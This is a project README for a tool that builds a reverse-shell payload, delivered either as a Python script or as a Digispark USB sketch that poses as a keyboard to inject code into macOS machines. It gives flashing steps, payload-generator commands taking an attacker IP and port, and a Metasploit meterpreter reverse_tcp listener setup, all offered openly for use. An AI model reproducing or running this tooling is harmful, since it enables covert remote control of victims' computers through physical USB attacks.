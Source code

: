 ## Digispark reverse shell

The script creates either reverse shell python script or arduino sketch for digispark. The script is compatible with metasploit.</br>
This Digispark sketch is intended to run on OS X operating System.

## What is digispark?
Digispark is a Attiny85 based microcontroller that can be used as trusted a HID-MIDI device. This project exploits the function and injects malicious code into the machine. 

## Features

- Creates a reverse shell python script
- Creates a Arduino sketch for digispark

## Arduino Configuration

To flash the digispark module, you need to add this link to your boards maneger</br>
Arduino > File > Preferences > Additional Boards Manager URLs:
```
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
```

Once the link is added, head over to Tools > Bord > Boards Manager, search for "Digistump AVR Boards" and make sure it is installed.


## Installation

Clone this repository
``` 
git clone https://github.com/https-sam/digispark_reverse_shell.git
```

```
cd scripts
```

`-p and -i tags` are required.
```
python3 payloadGenerator.py -i IP ADDRESS -p PORT
```

`-py True` is optional, which only creates a python reverse shell script.
```
python3 payloadGenerator.py -i IP Address -p port -i IP Address -p port -py True
```


## Set up

Metsploit can be used as a listener
``` 
msfconsole
use multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport PORT
run
````



## License

MIT


- [Digistump](https://github.com/digistump/DigisparkArduinoIntegration/blob/master/libraries/DigisparkKeyboard/DigiKeyboard.h) - Library for digispark
- [Micronucleus](https://github.com/micronucleus/micronucleus) - processor



